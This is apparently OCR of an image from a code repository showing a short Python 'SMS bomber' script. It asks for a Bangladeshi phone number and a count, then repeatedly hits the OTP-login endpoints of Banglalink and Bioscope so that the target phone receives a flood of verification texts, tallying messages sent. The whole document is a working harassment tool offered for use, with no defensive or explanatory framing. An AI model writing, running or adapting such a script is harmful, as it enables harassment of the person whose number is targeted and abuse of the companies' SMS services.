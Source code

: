 import requests as rq
import time

number  = str(input("[>] Enter The BD Number: "))
amount = int(input("[>] Enter The Ammount: "))

sent, nsent = 0, 0

for count in range(1, amount + 1):
  try:
    status = 0
    if number.startswith("014") or number.startswith("019"):
      r = rq.post("https://assetliteapi.banglalink.net/api/v1/user/otp-login/request", data={"mobile": number})
      status = r.status_code
        
    else:
      url = f"https://stage.bioscopelive.com/en/login/send-otp?phone=88{number}&operator=bd-otp"
      r = rq.get(url)
      status = r.status_code
    
    if status == 200:
      print(f"[✓] {count} SMS Sent.")
    time.sleep(1)
    sent += 1
    count += 1

  except:
      print(f"[×] {count} SMS Not Sent.")
      time.sleep(10)
      count+=1

  count += 1             
            
totalhit  = amount
nsent     = totalhit - sent

print(f"[•] Total Hits : {totalhit}")
print(f"[✓] Total Sent : {sent}")
print(f"[×] Total Not Sent : {nsent}")
